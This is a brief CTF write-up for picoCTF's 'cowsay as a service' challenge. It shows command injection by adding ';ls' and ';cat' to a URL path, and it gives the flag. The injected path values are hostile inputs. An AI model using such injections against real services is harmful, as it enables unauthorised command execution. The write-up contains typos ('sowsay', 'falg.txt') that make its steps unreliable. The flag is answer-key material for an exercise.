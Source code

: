 # caas
### Points: 150

## Category
#### Web Exploitation

## Question
#### Now presenting cowsay as a service
## Challenge Endpoints
#### Download index.js&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;[index.js](https://artifacts.picoctf.net/picoMini+by+redpwn/Web+Exploitation/caas/index.js)

### Hint
>#### (None)



## Solution
### Look at this website
![pico](a/04.png)

#### To begin, enter the URL `/sowsay/abc`, then visit this website .

![pico](a/05.png)
#### Second, enter the URL `/sowsay/abc;ls`, then visit this website .

![pico](a/06.png)
#### Third, enter the URL `/sowsay/abc;cat falg.txt `, then visit this website and get the flag.

![pico](a/07.png)


## Flag
`picoCTF{moooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0o}`